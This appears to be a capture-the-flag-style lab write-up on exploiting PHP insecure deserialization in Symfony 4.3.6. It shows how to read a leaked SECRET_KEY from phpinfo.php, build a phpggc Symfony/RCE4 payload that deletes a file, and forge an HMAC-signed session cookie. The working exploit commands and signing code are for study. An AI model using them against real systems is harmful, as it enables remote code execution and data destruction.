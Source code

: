 # Exploiting PHP deserialization with a pre-built gadget chain
# Objective
This lab has a serialization-based session mechanism that uses a signed cookie. It also uses a common PHP framework. Although you don't have source code access, you can still exploit this lab's insecure deserialization using pre-built gadget chains.

To solve the lab, identify the target framework then use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, work out how to generate a valid signed cookie containing your malicious object. Finally, pass this into the website to delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
The session cookie on this webiste holds serialized data. File `phpinfo.php` is accessible for everyone. It contains `SECRET_KEY`.
|![](Images/image-19.png)|
|:--:| 
| *Session cookie* |
|![](Images/image-20.png)|
| *PHP info* |

## Exploitation
### Framework identification
Cookie value is signed using symmetric algorithm `hmac`. The secret is visible in `/cgi-bin/phpinfo.php`. When attacker tries to modify cookie without signing it website returns error information revealing information about used framework and its versoin - `Symfony Version: 4.3.6`.

|![](Images/image-24.png)|
|:--:| 
| *Request with modified, not signed cookie* |
| Framework information |

### Exploiting PHP deserialization with a pre-built gadget chain
In order to delete `morale.txt` from `/home/carlos` directory attacker can create gadget chain payload using [phpggc tool](https://github.com/ambionics/phpggc). This serialized payload can grant attacker remote code execution (RCE).


Command:
```bash
./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64 -w 0
```

Signing cookie:
```php
<?php
$object = "OBJECT-GENERATED-BY-PHPGGC";
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
```

|![](Images/image-21.png)|
|:--:| 
| *Payload generation* |
|![](Images/image-22.png)|
| *Signing payload with leakd SECRET_KEY * |
|![](Images/image-23.png)|
| *Deletion of target file* |


